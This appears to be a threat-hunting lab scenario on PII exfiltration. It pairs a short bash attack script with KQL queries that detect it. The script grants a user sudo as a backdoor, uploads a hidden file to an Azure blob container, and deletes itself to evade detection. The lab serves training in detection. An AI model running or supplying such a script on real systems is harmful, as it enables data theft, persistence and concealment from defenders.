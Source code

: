 
# Scenario Creation – PII Exfiltration

## Bad Actor Steps
NIST 800-61
* Grants sudo privileges to a specific user (a process known as privilege escalation),
* Extracts PII data from a known location, to Azure blob account
* Deletes itself upon completion to avoid detection.

The attacker’s actions also effectively create a backdoor, potentially enabling future data exfiltration. This lab is designed to introduce basic Linux commands and concepts. It's highly recommended that you attempt to execute the commands on your own before referring to the provided solutions.

```
	#!/bin/bash

# Give user $TARGET_USER sudo privileges (acts as a backdoor)
sudo usermod -aG sudo $TARGET_USER
	
	# Upload target file to Azure Storage for exfiltration
	# ACCOUNT_NAME is the name of the storage account you created
	# ACCESS_KEY is key1 or key2 found in storage account > Security + networking > Access keys
	# CONTAINER_NAME is the name of your blob container in the storage account

	# FILE_NAME is the path to the file you want to exfiltrate, /home/$VM_NAME/.$SECRET_DIRECTORY/.$TEXT_FILE_TO_EXFILTRATE
	# BLOB_NAME is the name of the file in the storage account
	az storage blob upload \
	  --account-name $ACCOUNT_NAME \
	  --account-key $ACCESS_KEY \
	  --container-name $CONTAINER_NAME \
	  --file $FILE_NAME \
	  --name $BLOB_NAME
	
	# Delete this exact script
	rm -- "$0"

```

---

## Tables Used to Detect IoCs
| Parameter |         Description          | 
|-----------|------------------------------|
| Name      |      DeviceFileEvents        | 
| Info      |                              | 
| Purpose   |                              |

| Parameter |         Description          | 
|-----------|------------------------------|
| Name      |      DeviceProcessEvents     | 
| Info      |                              | 
| Purpose   |                              |

| Parameter |         Description          | 
|-----------|------------------------------|
| Name      |      DeviceNetworkEvents     | 
| Info      |                              | 
| Purpose   |                              |

| Parameter |         Description          | 
|-----------|------------------------------|
| Name      |      DeviceRegistryEvents    | 
| Info      |                              | 
| Purpose   |                              |
---
## Related Queries

Query 1: DeviceProcessEvents - Security team ran script to detect any instance of file script adding or modifying, script processes that can detect privilege escalations or exfiltration

```kql
let timePeriodThreshold = ago(3d); // Defines a point in time 3 days ago
let sensitiveGroups = dynamic(["sudo"]); // Add other groups if relevant
DeviceProcessEvents
| where DeviceName contains "Workstation1"
| where Timestamp > timePeriodThreshold
| where InitiatingProcessCommandLine contains "usermod -aG"
| where InitiatingProcessCommandLine has_any (sensitiveGroups) // Checks if the command line contains any of the sensitive group names
| project Timestamp, DeviceName,ActionType, FileName, ProcessCommandLine, FolderPath

```
Query 2: Checking Azure Blob storage exfiltration
```kql
let timePeriodThreshold = ago(3d); // Defines a point in time 3 days ago
DeviceNetworkEvents
| where DeviceName contains "Workstation1"
| where Timestamp > timePeriodThreshold
| where InitiatingProcessCommandLine contains "storage blob upload"

```
Query 3: Device File Events - Finding the file

```kql
DeviceFileEvents
| where DeviceName contains "Workstation1"
| where ActionType == "FileCreated"
| project Timestamp, DeviceName, InitiatingProcessCommandLine, InitiatingProcessParentFileName
| order by Timestamp asc

```


---

## Created By
### Author Name: Jonathan Gribe
### Author Contact: [LinkedIn account]
### Date: 08/13/2025

## Validated By:
### Reviewer Name:
### Reviewer Contact:
### Validation Date:
---

## Additional Notes
---

## Revision History
